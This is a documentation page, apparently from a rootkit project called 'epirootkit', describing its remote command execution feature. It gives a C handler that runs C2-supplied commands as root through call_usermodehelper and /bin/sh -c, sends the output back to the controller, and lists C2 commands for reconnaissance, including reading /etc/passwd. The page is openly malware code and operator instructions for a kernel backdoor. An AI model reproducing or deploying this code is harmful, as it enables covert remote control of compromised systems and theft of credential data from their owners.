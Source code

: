 ```yaml
---
title: "Command Execution"
description: "Execute shell commands remotely with full output capture"
icon: "terminal"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 510
---
```


# Command Execution

Execute shell commands remotely through the rootkit with full output capture.

## How It Works

1. **C2 sends command** via network
2. **Rootkit executes** using `call_usermodehelper()` with `/bin/sh -c`
3. **Captures output** by redirecting to temporary file
4. **Returns result** with exit code and output

## Implementation

```c
static int handle_exec(const char *data)
{
    char *argv[] = { "/bin/sh", "-c", command_copy, NULL };
    char *envp[] = { "HOME=/", "PATH=/sbin:/bin:/usr/bin", NULL };
    
    // Generate unique temporary filename
    snprintf(temp_filename, sizeof(temp_filename), 
             "/tmp/epirootkit_out_%d", atomic_inc_return(&exec_counter));
    
    // Execute with output redirection
    snprintf(full_command, command_len + temp_len + 32,
             "%s > %s 2>&1", data, temp_filename);
    
    ret = call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
    return send_result(formatted_result);
}
```

## Usage

### WebUI Terminal
Interactive terminal interface with:
- **Command input** and **real-time output**
- **Command history** and **exit code indicators**

### C2 Commands
```bash
# System information
exec Client-1 whoami
exec Client-1 uname -a

# File operations
exec Client-1 ls -la /etc
exec Client-1 cat /etc/passwd

# Network reconnaissance  
exec Client-1 netstat -tuln
exec Client-1 iptables -L
```

## Technical Details

- **Output capture**: Redirects to `/tmp/epirootkit_out_X`
- **Memory handling**: `vmalloc()` for large outputs (up to 64KB)
- **Cleanup**: Automatic temporary file removal